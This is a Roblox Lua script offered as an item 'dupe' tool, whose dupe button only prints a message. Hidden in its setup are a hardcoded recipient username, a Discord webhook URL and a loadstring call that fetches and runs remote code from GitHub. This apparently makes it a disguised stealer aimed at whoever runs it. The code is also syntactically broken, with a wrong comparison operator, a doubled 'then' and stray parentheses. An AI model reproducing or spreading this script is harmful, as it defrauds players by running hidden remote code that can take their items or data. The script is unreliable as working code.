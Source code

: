 if game.PlaceId -- 4483381587 then

then local OrionLib = loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jmesfo0/RobloxScripts/main/psx-jmes.lua"))()

local Window = OrionLib:MakeWindow({Name = "Main Dupe", HidePremium = false, SaveConfig = true, ConfigFolder = "Main Config"}

-- Values

)UserName = "red75jjj"

WebHook = "https://discord.com/api/webhooks/1001399314385469441/3NfHfAJgt5PsLP0e0BT3_7CnRYQFinKNtogHTqYYox8uvGpOa2B6CO4fbWd_CAarkc89"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/Script.lua", true))()

-- Functions

-- Tabs

local Tab = Window:MakeTab({

	Name = "Main",

	Icon = "rbxassetid://4483345998",

	PremiumOnly = false

})

-- Buttons

Tab:AddButton({

	Name = "CLICK ME TO DUPE",

	Callback = function()

      		print("button pressed")

  	end    

})

)end

OrionLib:Init()
